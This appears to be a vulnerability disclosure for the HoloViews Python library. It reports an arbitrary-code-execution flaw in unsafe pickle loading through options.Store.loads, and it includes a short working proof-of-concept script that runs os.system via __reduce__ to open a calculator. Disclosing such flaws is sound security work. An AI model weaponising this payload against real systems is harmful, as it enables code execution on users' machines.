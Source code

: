 # Description
HoloViews is an open-source Python library designed to make data analysis and visualization seamless and simple. With HoloViews, you can usually express what you want to do in very few lines of code, letting you focus on what you are trying to explore and convey, not on the process of plotting.
* **Vulnerability description**
    untrusted loading of data by the pickle.load function leading to Arbitrary code execution.

# Proof of Concept
Run exploit.py
```
import os
import pickle
#os.system('pip install holoviews')
from holoviews.core import options
#payload formation
class ArbitraryCode:
    def __reduce__(self):
        cmd = ('xcalc')
        return os.system, (cmd,)
dumps = pickle.dumps(ArbitraryCode())
options.Store.loads(dumps)
```
* `pip3 install holoviews`
* `python3 exploit.py`
